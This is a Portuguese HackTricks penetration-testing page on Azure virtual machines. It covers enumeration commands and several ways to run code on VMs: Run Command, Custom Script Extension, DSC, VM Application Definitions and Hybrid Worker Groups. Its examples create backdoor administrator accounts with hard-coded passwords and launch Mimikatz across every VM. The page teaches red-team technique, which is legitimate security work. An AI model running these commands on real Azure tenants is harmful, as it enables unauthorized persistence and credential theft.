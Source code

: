 # Az - Máquinas Virtuais & Rede

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Informações básicas

[Dos documentos:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) As máquinas virtuais do Azure são um dos vários tipos de [recursos de computação escaláveis sob demanda](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) que o Azure oferece. Normalmente, você escolhe uma máquina virtual quando precisa de mais controle sobre o ambiente de computação do que as outras opções oferecem. Este artigo fornece informações sobre o que você deve considerar antes de criar uma máquina virtual, como criá-la e como gerenciá-la.

## Informações sobre a Rede do Azure

As redes do Azure contêm **diferentes entidades e maneiras de configurá-las.** Você pode encontrar uma breve **descrição,** **exemplos** e comandos de **enumeração** das diferentes entidades de rede do Azure em:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** oferece uma solução segura e totalmente gerenciada de acesso RDP (Remote Desktop Protocol) e SSH (Secure Shell) via SSL através do portal do Azure. Está integrado dentro de uma Rede Virtual do Azure, permitindo conectividade RDP e SSH para VMs usando IPs privados, evitando a necessidade de IPs públicos. Isso o torna uma alternativa mais segura e conveniente em relação aos métodos tradicionais que envolvem atribuições de IPs públicos e configurações de regras NSG para acesso a VMs. Desenvolvedores e pessoal de TI podem acessar VMs de forma segura a partir do portal do Azure usando seus navegadores da web, simplificando o processo para ambientes de desenvolvimento e teste.

Para listar todos os Hosts do Azure Bastion em sua assinatura, você pode usar o seguinte comando:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumeração de VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Executar comandos em uma VM**

### **Login AAD na VM**

É possível permitir o acesso a usuários autenticados via AzureAD. Por exemplo, ao tentar acessar uma **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (é importante **usar o email** com o azurecorp usado ao tentar fazer login) você pode receber um erro como:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Basta **seguir essas instruções** acessando [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando o código, use o e-mail e a senha como credenciais e você poderá se conectar via SSH (se esse usuário tiver permissões suficientes para isso: `Virtual Machine Administrator Login` ou `Virtual Machine User Login` role).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Executar Extensão de Script Personalizado**

As extensões de máquinas virtuais (VM) do Azure são **pequenos aplicativos** que fornecem configuração e automação **pós-implantação** em **VMs do Azure**. Por exemplo, se uma máquina virtual requer instalação de software, proteção antivírus ou a capacidade de executar um script dentro dela, você pode usar uma extensão de VM.

Portanto, se você tiver acesso para escrevê-lo, poderá executar código arbitrário:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) é uma ferramenta PowerShell semelhante ao Ansible, usada para configurar um host através de código. O DSC integra-se ao Azure, permitindo o upload de arquivos de configuração específicos. Esses arquivos devem seguir uma sintaxe rigorosa. Notavelmente, a extensão DSC no Azure pode executar comandos de arquivos que atendem a certos critérios de formatação, mesmo que a sintaxe não esteja correta para os padrões do DSC, como mostrado na figura fornecida.

A execução desses comandos é facilitada pela função [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) no Az PowerShell. Os requisitos incluem um arquivo **.PS1** com uma função definida e o arquivo deve ser compactado em um arquivo **.zip**. Mesmo que a sintaxe possa não ser precisa para o DSC, o código ainda será executado. No entanto, a extensão marcará o status de execução como "falha", e nenhuma saída do comando será visível devido ao status ser sobrescrito pela mensagem de falha.

### VM Application Definitions

As Definições de Aplicativos de VM permitem a implantação repetível de aplicativos versionados em uma VM do Azure. Este recurso suporta a implantação e atualização de aplicativos em VMs. Para configurar isso, várias etapas são necessárias, envolvendo comandos como **`New-AzGalleryApplication`** e **`New-AzGalleryApplicationVersion`** no Az PowerShell.

A execução de aplicativos ou comandos através deste método envolve a **"VMAppExtension"**, que é instalada automaticamente quando um aplicativo é aplicado a uma VM. A extensão recupera o arquivo do URI especificado e o nomeia exatamente como o aplicativo, sem uma extensão. Para executar o arquivo corretamente, o campo "ManageActions" na chamada da API REST deve ser configurado para renomear o arquivo com a extensão apropriada. A configuração deste método, uma vez concluída, se parecerá com a estrutura mostrada na figura fornecida.

No entanto, esse método de execução é relativamente lento, levando cerca de 3-4 minutos para executar um aplicativo ou comando. Os arquivos relacionados a esse processo são armazenados em diretórios específicos (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` para a cópia do aplicativo e `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` para o status de execução).

Ambas as técnicas fornecem maneiras únicas de executar comandos e implantar aplicativos em ambientes Azure, cada uma com seu próprio conjunto de requisitos, etapas e considerações.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) são um recurso no Azure que permite que Runbooks, configurados em uma Conta de Automação, sejam executados em uma Máquina Virtual (VM) do Azure que faz parte do HWG designado. Essa execução é facilitada por uma extensão instalada na VM, que implanta o código do Runbook na VM. Um aspecto significativo desse processo é que as credenciais reais não são um fator na execução, pois o código é executado com privilégios elevados, especificamente como **SYSTEM** ou root, como ilustrado na figura fornecida.

Um detalhe crucial para aqueles que utilizam VMs com Windows 10 é a necessidade de especificar a versão do PowerShell para o Runbook. Deve ser configurado para rodar como PowerShell Versão 5.1 em vez de 7.1. Essa exigência decorre do fato de que o PowerShell 7.1 não está instalado por padrão nessas VMs, levando a uma falha na execução do script se a versão 7.1 for especificada.

Esse recurso do Azure oferece um método robusto para automatizar e gerenciar tarefas em ambientes híbridos, permitindo a gestão e execução centralizadas de tarefas em VMs do Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
